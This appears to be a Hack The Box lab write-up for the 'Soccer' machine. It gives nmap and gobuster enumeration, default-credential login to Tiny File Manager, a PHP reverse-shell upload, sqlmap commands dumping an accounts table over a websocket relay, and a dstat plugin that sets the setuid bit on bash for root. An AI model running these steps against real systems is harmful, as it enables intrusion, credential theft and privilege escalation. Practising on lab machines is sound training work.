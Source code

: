 # Soccer

A writeup for the machine [Soccer](https://app.hackthebox.com/machines/Soccer) on Hack The Box.

<Image src={require("./banner.png").default} width="700" />

## Footprinting

### Nmap scan

Use nmap to scan for services.

```bash
nmap -sS <IP>
```

<Image src={require("./nmap-scan.png").default} />

We can see three services: ssh, http, and one on port 9091 used for websockets.

### Website analysis

If we look on the website there is only a simple homepage with no other links.

<Image src={require("./website.png").default} />

### Website enumeration

By enumerating the main website using gobuster we can find a subdomain called tiny.

```bash
gobuster dir -u soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<Image src={require("./gobuster.png").default} />

## User flag

### Entering Tiny File Manager

During the enumeration a page is found under /tiny. There is a login but common credentials don't work.

It is possible to search online for "Tiny File Manager" and the Github repository of this project is one of the first results.

There is a section in the public documentation about the default admin credentials. The second user works. It is possible to enter inside.

Default credentials:

```
username: user
password: 12345
```

[https://github.com/prasathmani/tinyfilemanager/wiki/Security-and-User-Management](https://github.com/prasathmani/tinyfilemanager/wiki/Security-and-User-Management)

<Image src={require("./tiny.png").default} />

### Exploiting the file upload vulnerability in Tiny

Because it is a php server and we can upload file, we can obtain a reverse shell by uploading something like this and executing it.

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<Image src={require("./upload.png").default} />

### Inside the system

Once inside we can see that we have no access as the main user or the root.

Also, no vulnerabilities are found with tools like LinPeas or LinEnum.

By looking in the available files we can find in the nginx config that there is an additional website as soc-player.soccer.htb.

<Image src={require("./nginx.png").default} />

### Second website

Once logged in the second website, there is only an input box.

By trying different inputs we can see that the message "Tickets exists" is show when the query is correct and a value is found.

This is a blind sql injection vulnerability.

<Image src={require("./sqli.png").default} />

### SQLMap over websocket

The vulnerable request is managed with websockets so it is not possible to use sqlmap directly.

By looking to Rayhan0x01 post there is a possible solution for this.

[https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

We can create a middle server that receives normal GET requests by sqlmap and sent them to the websockets server and vice versa.

Once the script is ready and the server up and running, we can execute sqlmap and enumerate the database.

Run it with `flask run`

```bash
python3 -m venv .venv
source .venv/bin/activate
python3 -m pip install flask websocket
```

<Gist id="23988dbb8c44b3885f7f488caba89414" />

### Running SQLmap

```bash
# enumerate dbs
sqlmap -u "http://localhost:5000/?id=1" --batch --dbs

# enumerate tables in app db
sqlmap -u "http://localhost:5000/?id=1" --batch -D soccer_db --tables

# enumerate credentials
sqlmap -u "http://localhost:5000/?id=1" -D soccer_db -T accounts -C username,email,password --dump
```

<Image src={require("./sqlmap.png").default} />

### User flag

We can enter inside the system using ssh and the credentials found in the database. It is possible in this way to read the user flag.

<Image src={require("./user.png").default} />

## Root flag

### Privilege escalation

Once inside the system for privilige escalation we can run LinPeas. Move it using ssh or by serving a directory.

```bash
./LinPeas.sh
```

[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

In the final output of LinPeas we can see that there is a possible vulnerability with dstat.

<Image src={require("./linpeas.png").default} />

### Exploiting dstat

dstat can be run as root. We could write a new plugin to make some actions like the root inside the system.

New plugins can be written inside the folder `/usr/local/share/dstat`.

The filename format should be `dstat_<plugin_name>.py` like `dstat_hack.py`.

```python
# /usr/local/share/dstat/dstat_hack.py
import os

os.system('chmod +s /usr/bin/bash') # setuid
```

We can run it using this command

```bash
sudo /usr/bin/dstat --hack
```

### Root flag

Now we can run bash as root and read the flag.

```bash
bash -p
```

<Image src={require("./root.png").default} />

